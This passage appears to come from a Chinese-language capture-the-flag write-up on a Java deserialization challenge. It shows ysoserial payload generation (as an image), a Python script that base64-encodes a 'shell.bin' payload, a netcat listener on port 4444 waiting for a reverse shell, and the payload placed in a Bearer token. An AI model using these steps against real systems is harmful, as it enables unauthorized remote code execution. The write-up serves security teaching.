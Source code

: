 ![ysoserial生成反序列化](./Think_Java/ysoserial生成反序列化.png)

然后，利用python脚本将反序列化数据进行base64编码。

```python
import base64
file = open("shell.bin","rb")
source = file.read()
encode = base64.b64encode(source)
file.close()
print(encode)
```

本地服务器启动监听，执行：nc -lvvp 4444

![启动监听](./Think_Java/启动监听.png)

将生成的反序列化内容写入到Token中，需要前面加上Bearer。

![请求](./Think_Java/请求.png)
